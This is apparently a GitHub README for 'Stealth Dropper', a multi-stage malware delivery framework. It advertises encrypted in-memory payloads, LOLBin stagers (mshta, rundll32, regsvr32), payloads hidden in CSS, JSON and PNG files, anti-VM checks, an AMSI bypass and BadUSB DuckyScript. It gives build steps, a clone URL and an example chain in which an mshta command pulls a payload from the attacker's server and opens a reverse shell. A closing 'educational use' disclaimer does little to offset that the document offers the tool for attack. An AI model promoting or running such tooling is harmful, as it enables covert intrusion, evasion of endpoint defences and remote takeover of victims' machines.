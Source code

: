 # Stealth Dropper (2025 Edition)

**Multi-stage, multi-OS, in-memory malware delivery framework**

## ✅ Features
- AES-256 encrypted payload delivery
- Full in-memory execution (no file drops)
- Multi-OS support: Windows / Linux / macOS
- Web-based stagers via mshta / rundll32 / regsvr32
- Payload delivery via CSS, JSON, PNG (LSB stego)
- Anti-VM / sandbox detection module
- DuckyScript generation for WiFi BadUSB

---

## 📁 Project Structure
```
stealth-dropper/
├── run.sh                  # main automation script
├── config/                 # config/settings.json
├── core/                   # anti_vm.ps1
├── output/                 # generated stagers + logs
├── payloads/               # raw stage 2 payloads by OS
├── stagers/                # template stage 1 payloads for delivery
├── tools/                  # encryption & embedding tools
└── web/                    # hosted delivery files
```

---



## 🚀 How to Use

### 0. [RECOMMENDED] Setup Python virtual environment

Before running, it is **highly recommended** to use a Python virtual environment to isolate dependencies:

```bash
# 1. Clone the repository
git clone https://github.com/trxtr337/stealth-dropper-EXTENDED.git
cd stealth-dropper-EXTENDED

# 2. Create a virtual environment
python3 -m venv venv

# 3. Activate the environment:
# For Linux/macOS:
source venv/bin/activate
# For Windows:
venv\\Scripts\\activate

# 4. Install required dependencies
pip install -r requirements.txt

### 1. Set encryption key in `.env`

ENCRYPTION_KEY=Zxcvbnm1234567890Zxcvbnm12345678
```

### 2. Run the builder
```bash
chmod +x run.sh
./run.sh
```

You'll be prompted to select:
- IP and PORTS
- Target OS
- Payload type (e.g. shell_reverse)
- Delivery method (css / manifest / png)

Result:
- Stage 2 is AES-encrypted
- Stage 1 (PowerShell / HTA / SCT) is generated
- Payload is embedded in CSS/JSON/PNG
- Server starts at `http://<your-ip>:<port>`
- DuckyScript saved in `output/ducky_payload.txt`

---

## 🧪 Example Attack Chain (Windows)
```
1. Deliver WiFi Ducky:
   > GUI r
   > mshta http://<your-ip>:8000/decrypt.html

2. HTML decrypts AES payload from CSS/JSON/PNG
3. Executes PowerShell stage 2 in memory
4. Reverse shell connects back to you
```

---

## 📦 Supported Payloads
- `windows/shell_reverse` → raw.ps1 TCP shell
- `windows/lolbins/js_payload.html` → mshta/jscript shell
- `linux/bash_reverse` → raw.sh reverse TCP
- `mac/osascript` → raw.osascript reverse shell

---

## 🔐 Stealth Considerations
- No IEX / no downloadstring / no Invoke-Obfuscation
- AMSI bypass injected in stage 1
- Anti-VM checks built-in (RAM, hostname, vendor)
- No file drops unless explicitly instructed

---

## 🛠 Requirements
- Python 3.8+
- pip install -r requirements.txt
- Dependencies: `python-dotenv`, `pycryptodome`, `Pillow`

---

## ⚠️ Legal Notice
> This project is for educational and authorized testing use only.  
> You are responsible for your actions. Do not deploy without explicit permission.
